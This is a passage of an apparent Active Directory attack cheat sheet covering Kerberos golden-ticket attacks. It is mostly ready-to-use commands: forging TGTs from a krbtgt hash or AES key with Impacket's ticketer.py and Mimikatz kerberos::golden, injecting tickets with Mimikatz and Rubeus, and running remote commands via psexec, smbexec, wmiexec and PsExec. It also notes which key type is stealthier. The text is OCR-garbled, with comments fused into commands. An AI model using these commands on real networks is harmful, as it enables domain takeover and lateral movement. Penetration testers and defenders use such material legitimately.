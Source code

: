 Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

.\PsExec.exe -accepteula \\<remote_hostname> cmd

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='31'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='710' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#golden-ticket)Golden ticket

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

# To generate the TGT with NTLMpython ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name># To generate the TGT with AES keypython ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name># Set the ticket for impacket useexport KRB5CCNAME=<TGS_ccache_file># Execute remote commands with any of the following by using the TGTpython psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

# To generate the TGT with NTLMmimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name># To generate the TGT with AES 128 keymimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name># To generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name># Inject TGT with Mimikatzmimikatz # kerberos::ptt <ticket_kirbi_file>

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
